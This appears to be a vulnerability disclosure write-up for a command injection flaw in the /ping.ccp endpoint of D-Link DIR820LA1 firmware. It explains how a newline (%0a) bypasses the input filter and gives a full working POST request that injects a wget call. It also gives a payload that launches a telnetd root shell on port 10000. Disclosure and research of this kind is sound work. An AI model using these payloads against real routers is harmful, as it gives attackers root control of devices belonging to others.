 # D-link DIR820LA1_FW105B03 Command injection vulnerability

A command injection vulnerability exists in pingV4Msg of component "/ping.ccp" of D-Link DIR820LA1_FW105B03, allowing an attacker to elevate privileges to root via a crafted payload.

## Overview

- Manufacturer's website information：https://www.dlink.com/
- Firmware download address ：http://www.dlinktw.com.tw/techsupport/download.ashx?file=2663

## 1. Affected version

DIR820LA1_FW105B03

## Vulnerability details

The file directory where the vulnerability is located:`/sbin/ncc2`

The `sub_49EDF8` function obtains the content of the variable `ping_addr`  from the request of `/ping.ccp`, and splicing the parameters of the system causes the command to be executed.

![vuln1](vuln1.png)

The ccp_ping function references the vulnerable `sub_49EDF8` function when the ccp_act parameter is set to pingV4Msg.

![vuln2](vuln2.png)

Command execution defense bypass. The function `hasInjectionString` filters the written instructions, but it does not filter `%0a`,`$` and other symbols, resulting in bypass. See poc for specific methods.

![vuln3](vuln3.png)

## Recurring vulnerabilities and POC

In order to reproduce the vulnerability, the following steps can be followed:

1. Use the FirmAE simulation firmware DIR820LA1_FW105B03.bin

​	<img src="firmAE.png" alt="firmAE" style="zoom:70%;" /><img src="FirmAE2.png" alt="FirmAE2" style="zoom:70%;" />

2. Attack with the following POC attacks

​	**Attack Vector1**：`ccp_act=pingV4Msg&ping_addr=%0awget http://192.168.0.2%0a`

- First use `sudo python3 -m http.server80` to build a web server locally, and you will see the echo

- Run poc

```xml
POST /ping.ccp HTTP/1.1
Host: 192.168.0.1
Content-Length: 760
Accept: application/xml, text/xml, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.5414.120 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Origin: http://192.168.0.1
Referer: http://192.168.0.1/lan.asp
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: hasLogin=1
Connection: close

ccp_act=pingV4Msg&ping_addr=%0awget http://192.168.0.2%0a
```

![poc](poc.png)

Finally, you can write exp, which can achieve a very stable effect of obtaining the root shell，Such as`ping_addr==%0atelnetd -l /bin/sh -p 10000 -b 0.0.0.0%0a`